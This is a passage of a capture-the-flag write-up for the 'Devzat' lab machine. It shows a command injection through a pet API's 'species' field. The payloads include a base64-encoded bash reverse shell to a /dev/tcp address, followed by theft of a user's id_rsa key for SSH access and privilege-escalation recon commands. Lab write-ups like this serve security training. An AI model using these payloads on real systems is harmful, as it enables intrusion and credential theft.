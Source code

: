 ; max-width: 900px;">
<br/><br/>

I am trying to get an **RCE** directly from the console using `curl`, since the injection is similar to the one I did before but from **BurpSuite**. First I verify the connectivity with a `ping` and then I can get a **Reverse Shell**, this time using `base64` and `bash`. When I list the user's home file, I find a private **id_rsa** key, so I use it to connect again to the machine without entering the password and get a more stable terminal.

```bash
tcpdump -i tun0 icmp -n
curl -s -X POST http://pets.devzat.htb/api/pet -d '{"name":"test","species":"giraffe;ping -c 1 10.10.14.15"}'

cat index.html | base64 -w 0; echo
nc -nlvp 443

curl -s -X POST http://pets.devzat.htb/api/pet -d '{"name":"test","species":"giraffe;echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYvZGV2L3RjcC8xMC4xMC4xNC4xNS80NDMgMD4mMQo=|base64 -d|bash"}'

cat id_rsa

nvim id_rsa
chmod 600 id_rsa

ssh -i id_rsa patrick@10.10.11.118
export TERM=xterm
```

<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_42.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_43.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_44.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_45.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

With this user I don't have enough privileges to read the first flag. But if I use some recon commands, I find some internal ports, only accessible from the host machine. I download and compile the latest version of **[chisel](https://github.com/jpillora/chisel){:target="_blank"}** but it does not work on the victim machine, this already happened to me on another machine, it is a version problem, I should try with an older one.

> **Victime Machine**:

```bash
grep "sh$" /etc/passwd
# patrick, catherine

find \-perm -4000 2>/dev/null
which pkexec | xargs ls -l
getcap -r / 2>/dev/null

netstat -nat
ps -faux
ps -fawx
# --> /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8086 -container-ip 172.17.0.2 -conta
```